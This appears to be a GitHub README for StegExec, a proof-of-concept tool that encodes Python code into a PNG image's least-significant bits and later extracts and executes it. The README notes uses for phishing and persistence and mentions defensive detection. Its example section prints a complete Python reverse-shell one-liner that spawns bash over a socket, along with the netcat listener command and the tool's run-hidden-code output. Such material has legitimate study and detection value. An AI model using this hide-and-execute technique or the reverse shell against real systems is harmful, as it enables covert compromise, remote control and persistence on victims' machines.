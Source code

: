 ## StegExec

This is a PoC of how potentially malicious code may be hidden in an image file to then be executed within an innocent program. Its approach is to change the least-significant bit of an image file to write Python code which can then later be extracted and executed from the encoded image.

Under the right conditions, it is possible to use this approach to gain initial compromise (through phishing) or to establish persistence, so prepare accordingly with tools to check files hidden within images to prevent this sort of attack. Not all tools (e.g. steghide) support checking PNG files for embedded files, which this tool implements.

The code is well-documented with verbose output for demonstration purposes. For example, to encode a Python reverse shell:

```bash

$ python stegexec.py -e -f test.py image.png
[*] Script needs an image of at least 1656 pixels for it to fit.
[*] Image is 1189x676 or 803764 pixels.
[*] Script in binary:
 01101001011011010111000001101111011100100111010<SNIP>
[*] Now encoding into image...
[+] Script encoded
[*] Saving message as image_encoded.png
[+] Encoded image saved

$ python stegexec.py -x image_encoded.png
[*] Attempting to read image for script...
[+] Image read OK
[*] Extracting pixel information...
[+] Pixel information extracted.
[*] Decoding script in pixels...
[*] Extracting contents...
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")

$ python stegexec.py -r image_encoded.png
[*] Attempting to read image for script...
[+] Image read OK
[*] Extracting pixel information...
[+] Pixel information extracted.
[*] Decoding script in pixels...
[*] Executing...

# Setting up a netcat listener, we get a connection
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 42888

```

## About and Usage

This tool was originally made to send, receive, and decode simple messages as images. This project is a PoC of how such a simple concept can be easily weaponized, that's all. I'm not liable for your use of this program.